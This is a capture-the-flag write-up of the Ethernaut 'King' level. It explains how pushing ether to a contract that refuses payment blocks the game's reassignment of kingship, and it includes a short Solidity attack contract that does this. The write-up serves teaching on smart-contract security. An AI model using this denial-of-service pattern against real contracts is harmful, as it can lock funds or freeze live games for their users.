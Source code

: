 # King

## Challenge Statement

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

## Analysis

The transfer function call in Line 18 : ```king.transfer(msg.value);```, which sends ether to the current king also transfers control to the target contract. The target contact can throw an error on receiving eth if there is no receive function, or if the receive function is purposefully malicious, both disrupting the flow of the original contract and stopping the execution of the following lines, hence not reassigning the new king.

## Solution

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Attack {

    address payable target = 0x411EE47DCed674E6e4859883E22A0e06CC3bd0B7;

    function becomeKing() public payable {
        (bool sent, ) = target.call{value: msg.value}("");
        require(sent, "failed to send");
    }
}

## Moral

Most of Ethernaut's levels try to expose (in an oversimpliefied form of course) something that actually happend. A real hack or a real bug.

In this case, see: King of the Ether and King of the Ether Postmortem